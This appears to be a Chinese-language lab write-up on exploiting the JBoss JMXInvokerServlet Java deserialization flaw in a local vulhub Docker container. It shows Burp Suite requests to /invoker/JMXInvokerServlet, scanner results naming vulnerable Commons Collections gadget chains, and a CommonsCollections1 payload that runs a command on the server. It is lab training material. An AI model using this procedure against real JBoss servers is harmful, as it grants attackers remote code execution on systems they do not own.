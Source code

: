 # Jboss_JMXInvokerServlet_Deserialization_RCE

![](./Jboss_JMXInvokerServlet_Deserialization_RCE.jpg)

## 使用Burp Suite利用Java反序列化漏洞



### 0x01 搭建Jboss JMXInvokerServlet 反序列化漏洞

#### 测试环境： JBoss JMXInvokerServlet 反序列化漏洞
#### 漏洞原理：JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker-compose up -d
jmxinvokerservlet-deserialization_jboss_1 is up-to-date

root@kali:~# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                      
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                4 hours ago         Up 4 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->999
```

## 0x02 访问/invoker/JMXInvokerServlet, 将post数据包发送到Deserialization Scanner -Manual testing

BurpSuite 历史记录，如果/invoker/JMXInvokerServlet路径存在，页面返回200状态码
```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

aaaa
```
response返回 Java serialization data, version 5
文件头以aced0005737200246f72672e6a626f73开头

将/invoker/JMXInvokerServlet ,POST流量发送到DS插件里面
右击,点击 Send request to DS-Manual testing

### 设置序列化点
选择存在序列化的位置，由于JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的序列化对象.
设置aaaa为序列化点，全选aaaa
然后点击 Set Insertion Point
此时POST数据变成了 $aaaa$

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

§aaaa§
```

### 扫描$aaaa$是否存在序列化漏洞
![](./VULNERABLE.jpg)
点击 Attack

提示
```
SCANNING IN PROGRESS  //正在进行扫描
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
//根据创建的易受攻击的库的数量，扫描可以持续大约1秒到3分钟
```

稍等

```
Results:

Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): NOT vulnerable.
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!!
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!!
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!
END

IMPORTANT NOTE: High delayed networks may produce false positives!
```
可能存在危害的利用方法
```
Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!   //可能有害！
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!  //可能有害！
```

右击发送到 Send to Exploitation tab


默认
`CommonsCollections1 COMMAND`
改为
`CommonsCollections1 "touch /tmp/jas502n"`

点击 Attack

进入docker服务器，查看/tmp/jas502n文件是否创建成功

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                            NAMES
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                5 hours ago         Up 5 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp   jmxinvokerservlet-deserialization_jboss_1

root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker exec -it 65b3707b9419 /bin/bash
[root@65b3707b9419 /]# cd /tmp
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# rm jas502n 
rm: remove regular empty file 'jas502n'? y
[root@65b3707b9419 tmp]# 
[root@65b3707b9419 tmp]# ls
hsperfdata_root
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# 
```

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/jboss/JMXInvokerServlet-deserialization/README.md

https://youtu.be/F3bPD_uGXKc
